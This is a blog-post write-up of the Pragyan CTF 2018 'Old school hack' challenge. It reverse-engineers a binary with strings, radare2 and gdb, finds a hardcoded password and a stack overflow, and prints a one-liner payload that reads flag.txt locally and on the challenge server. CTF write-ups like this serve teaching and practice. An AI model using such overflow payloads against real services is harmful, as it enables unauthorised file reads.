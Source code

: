 ```yaml
---
layout: post
title:  "[Pragyan CTF 2018] Old school hack"
date:   2018-03-02 14:52:25 +0000
categories: "CTF"
comments: true
---
```


I played [Pragyan CTF](https://ctf.pragyan.org/home) for a few challenges and I thought the "Old School Hack" challenge should be great for a first post.

Gatheting information
---------------------

The challenge is running at 28.199.224.175:13000, but it also comes with a binary file named "police_academy" so let's start with it:
{% highlight html %}
└───▶ file police_academy
police_academy: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=db4dffbb6fd12d16c55cab166d1d1a9698374b5f, not stripped
{% endhighlight %}
The **file** command inform us that this binary is an ELF for x86-64 architectures, that it's dynamically linked and most importantly that it's not stripped so it should be easier to disassemble.

Then comes the obvious **strings** command, which will give us useful information:
{% highlight html %}
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
Enter password to authentic yourself :
kaiokenx20
Incorrect password. Closing connection.
Enter case number:
	 1) Application_1
	 2) Application_2
	 3) Application_3
	 4) Application_4
	 5) Application_5
	 6) Application_6
	 7) Flag
	 Enter choice :-
You don't have the required privileges to view the flag, yet.
No such record exists. Please verify your choice.
{% endhighlight %}
Yeah, a lot of things.

### First detonation

Let's run the binary and see what it does:
{% highlight shell %}
└───▶ chmod +x police_academy
┌─[✔]───[fabien@fabien-pc]───[pragyan_ctf]───[10 files, 72K]
└───▶ ./police_academy
Enter password to authentic yourself :
{% endhighlight %}
Hmmm... It asks for a password. At this point we can note the first input field of the program, it can be useful for later. I tried several random characters; didn't work.

Maybe our input password will merely be compared to another string that is hardcoded in the binary, and if so, this string should be in the **strings** output. But let's be clear here, I just randomly tried the string "kaiokenx20" just after "Enter password to authentic yourself :" before thinking about this because it was too big to not try, and it works.
{% highlight html %}
└───▶ ./police_academy
Enter password to authentic yourself : kaiokenx20
Enter case number:

	 1) Application_1
	 2) Application_2
	 3) Application_3
	 4) Application_4
	 5) Application_5
	 6) Application_6
	 7) Flag

	 Enter choice :-
{% endhighlight %}

Second input field. Now obvisouly, let's try the option 7 "Flag":
{% highlight html %}
	 Enter choice :- 7
You don't have the required privileges to view the flag, yet.
{% endhighlight %}
Yeah, it may not be that easy. The other options just close the connection, but we'll see why later. Let's try to find something interesting in the disassembly code.

Static analysis
---------------------
I used radare2 + cutter as a GUI (which is very cool to use) to disassemble the binary. Let's examine our first input, and navigate to the first **scanf** call:
{% highlight nasm %}
0x004009e1           call sym.imp.__isoc99_scanf
0x004009e6           lea  rax, qword rbp - 0x40
0x004009ea           mov  edx, 0xa
0x004009ef           mov  esi, str.kaiokenx20                         ; 0x400ec8 ; "kaiokenx20"
0x004009f4           mov  rdi, rax
0x004009f7           call sym.imp.strncmp
{% endhighlight %}

 After the first **scanf**, we can observe that our input is indeed compared to *kaiokenx20*, but it uses **strncmp** with the first 10 characters (the last parameter seems to be *edx* which is 0xa). Thus, for example **strncmp("kaiokenx20", "kaiokenx20AAAA", 10)** should return 0. We will exploit this later. Also, our input is *rbp-0x40* in the stack.

 Next **scanf**:
 {% highlight nasm %}
 lea  rax, qword rbp - 0x48
0x00400ab6           call sym.imp.__isoc99_scanf
0x00400abb           mov  eax, dword [local_48h]
0x00400abe           cmp  eax, 7                                      ; 7
0x00400ac1           ja   0x400cb8
{% endhighlight %}
Our second input is *rbp - 0x48* in the stack and is compared to 7 which is the number of options. If above (ja), it jumps to 0x400cb8. I thought in first place that it was the end of the main function. But nop, just before a function called **print_record**.

Just after the jump, there is another jump and 6 times the almost same code pattern.
 {% highlight nasm %}
 0x00400ac7           mov  eax, eax
 0x00400ac9           mov  rax, qword [rax*8 + 0x401028]               ; [0x401028:8]=0x400cb8 "H.E.H........E..}..u....@"
 0x00400ad1           jmp  rax

 0x00400ad3           lea  rax, qword rbp - 0x30
 0x00400ad7           movabs rcx, 0x3037303838356132
 0x00400ae1           mov  qword [rax], rcx
 0x00400ae4           movabs rdx, 0x3566356538656130
 0x00400aee           mov  qword [rax + 8], rdx
 0x00400af2           movabs rcx, 0x6339666439616331
 0x00400afc           mov  qword [rax + 0x10], rcx
 0x00400b00           movabs rdx, 0x6436353334346135
 0x00400b0a           mov  qword [rax + 0x18], rdx
 0x00400b0e           mov  dword [rax + 0x20], 0x7461642e              ; [0x7461642e:4]=-1
 0x00400b15           mov  byte [rax + 0x24], 0
 0x00400b19           jmp  0x400cb8
{% endhighlight %}
The first three lines will jump to one of these pattern, for instance to 0x00400ad3 if we choose the first option. It clearly constructs a string which is placed just after our first input in the stack... Seems like a buffer overflow exploitation. This is in little endian so the string is:
 {% highlight html %}
0x3037303838356132 + 0x3566356538656130 + 0x6339666439616331 + 0x6436353334346135 + 0x7461642e =
38303730326135386535663530616538646639633163613933353664356134342E646174 =
80702a58e5f50ae8df9c1ca9356d5a44.dat
{% endhighlight %}
It also add a null byte at the end, to terminate the string (0x00400b15). Then, it jumps just before **print_record** again.

A quick look at this function seems to show that it first checks the lenght of a string (the one it just constructs?), compare it to 36 (0x24) (which is the size of the constructed string again), and if it's not equal quit the function. Otherwise it will try to open the file and print what's inside (**fopen** and **fread**).

For the option 7, it constructs the string "flag.txt". We can now easily assume that the flag is in this file.

Dynamic analysis
---------------------
Let's now run it with gdb. For now I just want to see if it's gonna open the file named *80702a58e5f50ae8df9c1ca9356d5a44.dat* for the first option. I'll just set a breakpoint at the **fopen** instruction to see if the string is one of its arguments:
{% highlight nasm %}
gdb-peda$ r <<<$(python -c "print('kaiokenx20' + '\n' +'1')")
...
	0x4008cf <print_record+73>:	mov    rax,QWORD PTR [rbp-0x348]
	0x4008d6 <print_record+80>:	mov    esi,0x400d98
	0x4008db <print_record+85>:	mov    rdi,rax
	=>0x4008de <print_record+88>:	call   0x400750 <fopen@plt>
	0x4008e3 <print_record+93>:	mov    QWORD PTR [rbp-0x338],rax
	0x4008ea <print_record+100>:	cmp    QWORD PTR [rbp-0x338],0x0
	0x4008f2 <print_record+108>:	jne    0x4008fe <print_record+120>
	0x4008f4 <print_record+110>:	mov    eax,0xffffffff
Guessed arguments:
arg[0]: 0x7fffffffe010 ("2a5880700ae8e5f51ca9df9c5a44356d.dat")
arg[1]: 0x400d98 --> 0x72 ('r')
{% endhighlight %}
Yep, looks like it will try to open *2a5880700ae8e5f51ca9df9c5a44356d.dat*. I created a file with this name and some random characters in it and yes it open and output it.

We also want to give a look on how where the string is placed in the stack.  Let's set a breakpoint before the call to **print_record** in the **main** function:
{% highlight nasm %}
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdff0 --> 0x0
0008| 0x7fffffffdff8 --> 0x1
0016| 0x7fffffffe000 ("kaiokenx20")
0024| 0x7fffffffe008 --> 0x3032 ('20')
0032| 0x7fffffffe010 ("2a5880700ae8e5f51ca9df9c5a44356d.dat")
0040| 0x7fffffffe018 ("0ae8e5f51ca9df9c5a44356d.dat")
0048| 0x7fffffffe020 ("1ca9df9c5a44356d.dat")
0056| 0x7fffffffe028 ("5a44356d.dat")
[------------------------------------------------------------------------------]
{% endhighlight %}
Folowing our first input, we have the name of the file to open. And note that the **print_record** function read the same string at the same address (0x7fffffffe010).

It's now easy to think of a potential payload:

+ First we have the password buffer which is not controlled and with which we can write futher down the stack. Remember, the password buffer is at *rbp-0x40* and the file name should start at *rbp - 0x30*. The password string should be 16 characters.
+ Then, we will write the name of the file. It has to be 36 characters long to match the **strlen** test in **print_record**.
+ Finally, we have to choose an option above 7 to jump directly to **print_record**.

A potential payload should be:

{% highlight shell %}
python -c "print('kaiokenx20AAAAAA.' + '/'*27 + 'flag.txt' + '\n8')" | ./police_academy
{% endhighlight %}

Now, let's create a file named "flag.txt" in the same folder as the binary. We'll try to read it.

{% highlight shell %}
└───▶ python -c "print('kaiokenx20AAAAAA.' + '/'*27 + 'flag.txt' + '\n8')" | ./police_academy
...
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

FLAG


XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

It works ! Now, let's try it on *28.199.224.175 13000*:

{% highlight shell %}
└───▶ python -c "print('kaiokenx20AAAAAA.' + '/'*27 + 'flag.txt' + '\n8')" | nc 128.199.224.175 13000
...
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

The flag is :- pctf{bUff3r-0v3Rfl0wS`4r3.alw4ys-4_cl4SsiC}
9^

XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

Really easy one but it was kind of fun.
